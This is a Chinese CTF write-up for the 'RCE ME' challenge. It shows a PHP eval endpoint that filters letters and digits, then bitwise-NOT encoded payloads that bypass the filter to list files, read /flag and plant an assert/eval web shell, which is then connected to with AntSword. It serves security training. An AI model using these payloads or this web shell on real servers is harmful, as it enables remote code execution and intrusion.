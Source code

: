 # \[极客大挑战 2019]RCE ME

\[极客大挑战 2019]RCE ME

## 考点

* 无字母数字RCE
* PHP7参数解析特性
* 取反bypass代码执行

## wp

```php
<?php
error_reporting(0);
if(isset($_GET['code'])){
  $code=$_GET['code'];
  if(strlen($code)>40){
    die("This is too Long.");
  }
  if(preg_match("/[A-Za-z0-9]+/",$code)){
    die("NO.");
  }
  @eval($code);
}else{
  highlight_file(__FILE__);
}
```

`eval`的字符串不能出现字母和数字，并且长度不超过40

可以使用取反进行绕过对字符的限制

```
phpinfo() => (~%8F%97%8F%96%91%99%90)(); 

print_r(scandir('./')) => (~%8F%8D%96%91%8B%A0%8D)((~%8C%9C%9E%91%9B%96%8D)(("./")));

readfile("/flag") => (~%8D%9A%9E%9B%99%96%93%9A)((~%D0%8D%9A%9E%9B%99%93%9E%98));
```

`phpinfo()`有disable\_functions，考虑使用一句话

```
assert('eval($_POST[1])') => (~%9E%8C%8C%9A%8D%8B)(~%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%CE%A2%D6);
```

蚁剑连接

![](<../.gitbook/assets/image (14).png>)

再绕过disable\_functions

![](<../.gitbook/assets/image (15).png>)

![](<../.gitbook/assets/image (9) (1).png>)

## 小结

1. [深入浅出LD\_PRELOAD & putenv()](https://www.anquanke.com/post/id/175403)
